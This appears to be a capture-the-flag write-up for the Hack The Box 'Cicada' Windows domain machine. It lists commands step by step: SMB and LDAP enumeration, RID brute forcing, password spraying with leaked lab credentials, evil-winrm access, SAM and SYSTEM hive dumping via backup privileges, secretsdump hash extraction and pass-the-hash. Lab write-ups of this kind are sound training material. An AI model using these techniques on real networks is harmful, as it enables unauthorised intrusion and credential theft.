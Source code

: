 # 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.10.11.35 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.10.11.35`

Some output from the scan:
![[Pasted image 20250614145106.png]]

## What we can gather:
1. Domain name: cicada.htb
2. Kerberos is being used
3. SMB/LDAP in use (lets enumerate)

## What to try?
1. Null session on SMB?
	1. `rpcclient -U "" -N <target_ip> `
		1. ^^ nothing here either
2. Null session on LDAP?
	1. `ldapsearch -x -H ldap://10.10.11.35:389 -b "dc=cicada,dc=htb" "(objectClass=user)"`
	2. ^^ Got nothing here
3. User enumeration with kerbrute?

## Enum4linux:
`enum4linux -a 10.10.11.35`

==Usernames:== administrator, guest, krbtgt, domain admins, root, bin

`Domain Name: CICADA
Domain Sid: S-1-5-21-917908876-1423158569-3159038727`

## Kerbrute:
Try to find some valid usernames

`kerbrute userenum -d cicada.htb --dc 10.10.11.35 /usr/share/wordlists/statistically-likely-usernames/jsmith.txt -o valid_ad_users`

^^ Gave back nothing

## If we get a valid username and password we should use `ad-ldapdomaindump.py`

## smbclient:
`smbclient -L //10.10.11.35 -U "" 

Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        DEV             Disk      
        HR              Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.35 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
`

Above we see that there are non standard shares `DEV` and `HR`. How do we get to those?

==TRY:== `smbclient //10.10.11.35/HR -U ""`

-> When we list out files there is a file names "Notice from HR.txt". We can get that file. What is in it?

![[Pasted image 20250614151448.png]]

Looks like we have a password and a valid account!

`Cicada$M6Corpb*@Lp#nZp!8`

-> Let's use crackmapexec to validate these credentials.

	`sudo crackmapexec smb 10.10.11.35 -u cicada -p $M6Corpb*@Lp#nZp!8`

![[Pasted image 20250614151903.png]]
^^ These are valid creds! But how do we use them?


-> We should also go back and see if we can read anything from the `DEV` share <- No, we cannot list the `DEV` directory, but what else can we do? Can we try these creds with ==LDAP==?

`ldapsearch -x -H ldap://10.10.11.35 -D "CN=Cicada,...,DC=cicada,DC=htb" -w '$M6Corpb*@Lp#nZp!8' -b "dc=cicada,dc=htb" "(objectClass=*)"`

^^ Did not work -> Invalid credentials
`
![[Pasted image 20250614153335.png]]
^^ Windows server version

![[Pasted image 20250614153412.png]]

==What about== this ekjaovan user? Let's rerun the scan with that username. <- Returned the same stuff.

# To run impacket: (on my computer)
`python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py`

## Brute RIDs with netexec for user enumeration:
`netexec smb cicada.htb -u zaa -p "" --rid-brute`

Found users:
![[Pasted image 20250614165119.png]]

Lets see if any of these work.

![[Pasted image 20250614165508.png]]

It seems `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8` works!
^^ Access denied with DEV share

#### No SPNs available:
`python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py cicada.htb/michael.wrightson:'Cicada$M6Corpb*@Lp#nZp!8' -dc-ip 10.10.11.35`
^^ Gets -> No entries found!

## User enumeration with netexec:
`netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users`

![[Pasted image 20250614171424.png]]

It looks like a user left their password present!

`david.orelious:aRt$Lp#7t*VQ!3`
^^ This user has access to the DEV share!

```shell
python3 /usr/share/doc/python3-impacket/examples/smbclient.py cicada.htb/david.orelious:'aRt$Lp#7t*VQ!3'@10.10.11.35 -dc-ip 10.10.11.35
```

within DEV there is a file: 
![[Pasted image 20250614172325.png]]

Let's check this out and see what's in it.

![[Pasted image 20250614172424.png]]

More credentials!

emily.oscars:Q!3@Lp#M6b*7t*Vt

^^ No wmiexec :(

with these creds we can use smbclient again and list the ADMIN$ share (Got that info from enum4linux)

## evil-winrm:
`evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'`

This gets us the user.txt flag on the desktop.

The user has backup privileges, so we can dump the sam and system database to get the administrator hash. 

```shell
<on_target> reg save hklm\sam C:\tempel\sam
<on_target> reg save hklm\system C:\tempel\system

<attacker_machine> python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam1 -system system LOCAL

```


![[Pasted image 20250614184724.png]]

We can pass the hash with psexec and read the root hash


# Summary:
1. We were able to list a share that had a password, but no username
2. Using netexec with RID bruteforce we found valid users
3. Trying the found password with the users exposed that the michael.wrightson had reused the default password
4. this user could list users, exposing a password from the david.orelious user.
5. david.orelious could read the DEV share, that had a backup file
6. this backup file included creds for an administrator account
7. the administrator account had backup privileges on the machine, using evil-winrm we could backup the SAM and SYSTEM files and download them to our machine
8. Secretsdump.py was used to extract the hashes giving the administrator hash
9. this hash could be used with psexec in a pass the hash attack, allowing us to read the root.txt file. 

That's alot for an easy machine...